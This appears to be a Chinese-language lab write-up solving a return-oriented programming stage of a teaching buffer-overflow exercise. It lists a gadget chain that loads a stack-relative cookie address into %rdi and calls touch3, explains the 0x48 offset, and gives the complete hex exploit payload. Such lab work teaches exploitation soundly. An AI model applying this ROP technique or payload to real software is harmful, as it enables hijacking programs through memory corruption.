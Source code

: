 
复制

具体描述一个整个思路(感谢 @yaoxiuh)

1. 拿到 rsp 存着的地址
2. (然后把这个地址) + (cookie 在 stack 偏移量) pop 到某个寄存器中
3. 然后把这个寄存器的值放到 rdi 中
4. 然后调用 touch3
5. cookie 要放到 stack 最后面
6. 字符串最后加上 `\0` 也就是 `00000000` 来标志结束

从第二步到第三步，因为可用的指令的限制，需要借用不同的寄存器来进行转移跳转，最后完成对 `%rdi` 的赋值，具体的步骤（在我的这份代码里）

```
栈顶
mov  %rsp, %rax 48 89 e0 c3    0x401b11
mov  %rax, %rdi 48 89 c7 c3    0x401a2b
pop  %rax       58 c3          0x401a24
constant 0x48
movl %eax, %ecx 89 c1 20 c9 c3 0x401a98 (20 c9 没有影响)
movl %ecx, %edx 89 ca 28 c0 c3 0x401ac8 (38 c0 没有影响)
movl %edx, %esi 89 d6 38 c0 c3 0x401a68 (38 c0 没有影响)
lea  (%rdi, %rsi, 1), %rax     0x401a48
mov  %rax, %rdi 48 89 c7 c3    0x401a2b
touch3 的地址
cookie 的字符串
栈底
```

复制

对应的十六进制代码为（同样需要注意不全十六位的 0，不然会出段错误），这里还有一个需要注意的地方是偏移量，在执行第一句时，`%rsp` 已经是指向下一句了（指向的是当前的栈顶，正在执行的语句是不需要考虑的），所以可以数出来，在 cookie 之前一共有 9 条指令，每个 8 byte，所以一共的偏移量是 `0x48`（十进制的 72）。

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
11 1b 40 00 00 00 00 00
2b 1a 40 00 00 00 00 00
24 1a 40 00 00 00 00 00
48 00 00 00 00 00 00 00
98 1a 40 00 00 00 00 00
c8 1a 40 00 00 00 00 00
68 1a 40 00 00 00 00 00
48 1a 40 00 00 00 00 00
2b 1a 40 00 00 00 00 00
6e 19 40 00 00 00 00 00
34 35 33 37 34 66 65 65
00 00 00 00 00 00 00 00
```

复制
